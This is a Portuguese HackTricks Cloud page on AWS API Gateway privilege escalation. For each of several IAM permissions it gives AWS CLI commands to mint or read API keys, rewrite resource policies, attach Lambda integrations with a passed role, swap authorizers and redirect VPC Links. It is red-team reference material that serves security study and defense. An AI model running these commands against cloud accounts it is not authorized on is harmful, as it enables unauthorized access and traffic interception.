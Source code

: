 # AWS - Apigateway Privesc

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para o** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>
{% endhint %}

## Apigateway

Para mais informações, confira:

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### `apigateway:POST`

Com esta permissão, você pode gerar chaves de API das APIs configuradas (por região).
```bash
aws --region <region> apigateway create-api-key
```
**Impacto Potencial:** Você não pode escalar privilégios com esta técnica, mas pode obter acesso a informações sensíveis.

### `apigateway:GET`

Com esta permissão, você pode obter chaves de API geradas das APIs configuradas (por região).
```bash
aws --region <region> apigateway get-api-keys
aws --region <region> apigateway get-api-key --api-key <key> --include-value
```
**Impacto Potencial:** Você não pode escalar privilégios com esta técnica, mas pode obter acesso a informações sensíveis.

### `apigateway:UpdateRestApiPolicy`, `apigateway:PATCH`

Com essas permissões, é possível modificar a política de recursos de uma API para se dar acesso a chamá-la e abusar do acesso potencial que o API gateway pode ter (como invocar um lambda vulnerável).

{% code overflow="wrap" %}
```bash
aws apigateway update-rest-api \
--rest-api-id api-id \
--patch-operations op=replace,path=/policy,value='"{\"jsonEscapedPolicyDocument\"}"'
```
{% endcode %}

**Impacto Potencial:** Você, geralmente, não conseguirá escalar privilégios diretamente com esta técnica, mas pode obter acesso a informações sensíveis.

### `apigateway:PutIntegration`, `apigateway:CreateDeployment`, `iam:PassRole`

{% hint style="info" %}
Necessita de teste
{% endhint %}

Um atacante com as permissões `apigateway:PutIntegration`, `apigateway:CreateDeployment` e `iam:PassRole` pode **adicionar uma nova integração a uma API Gateway REST API existente com uma função Lambda que tem um papel IAM anexado**. O atacante pode então **disparar a função Lambda para executar código arbitrário e potencialmente obter acesso aos recursos associados ao papel IAM**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"
LAMBDA_ROLE_ARN="arn:aws:iam::account-id:role/lambda-role"

# Add a new integration to the API Gateway REST API
aws apigateway put-integration --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --type AWS_PROXY --integration-http-method POST --uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations --credentials $LAMBDA_ROLE_ARN

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Impacto Potencial**: Acesso a recursos associados ao papel IAM da função Lambda.

### `apigateway:UpdateAuthorizer`, `apigateway:CreateDeployment`

{% hint style="info" %}
Necessita de teste
{% endhint %}

Um atacante com as permissões `apigateway:UpdateAuthorizer` e `apigateway:CreateDeployment` pode **modificar um autorizer existente do API Gateway** para contornar verificações de segurança ou para executar código arbitrário quando solicitações de API são feitas.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
AUTHORIZER_ID="your-authorizer-id"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"

# Update the API Gateway authorizer
aws apigateway update-authorizer --rest-api-id $API_ID --authorizer-id $AUTHORIZER_ID --authorizer-uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Impacto Potencial**: Bypass de verificações de segurança, acesso não autorizado a recursos da API.

### `apigateway:UpdateVpcLink`

{% hint style="info" %}
Necessita de teste
{% endhint %}

Um atacante com a permissão `apigateway:UpdateVpcLink` pode **modificar um VPC Link existente para apontar para um Load Balancer de Rede diferente, potencialmente redirecionando o tráfego privado da API para recursos não autorizados ou maliciosos**.
```bash
bashCopy codeVPC_LINK_ID="your-vpc-link-id"
NEW_NLB_ARN="arn:aws:elasticloadbalancing:region:account-id:loadbalancer/net/new-load-balancer-name/50dc6c495c0c9188"

# Update the VPC Link
aws apigateway update-vpc-link --vpc-link-id $VPC_LINK_ID --patch-operations op=replace,path=/targetArns,value="[$NEW_NLB_ARN]"
```
**Impacto Potencial**: Acesso não autorizado a recursos privados da API, interceptação ou interrupção do tráfego da API.

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Suporte ao HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}
